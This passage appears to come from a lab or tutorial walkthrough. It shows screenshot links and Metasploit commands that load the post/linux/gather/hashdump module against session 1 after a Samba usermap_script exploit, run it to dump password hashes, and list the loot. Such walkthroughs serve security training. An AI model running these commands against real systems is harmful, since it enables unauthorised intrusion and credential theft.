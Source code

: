 ![06-msfconsole-usermap_script-exploit](../images/2020/06/06-msfconsole-usermap-script-exploit.png)

`use post/linux/gather/hashdump`

`show options`

![06-msfconsole-hashdump](../images/2020/06/06-msfconsole-hashdump.png)

`set SESSION 1`

`run`

![06-msfconsole-hashdump-run](../images/2020/06/06-msfconsole-hashdump-run.png)

`loot`
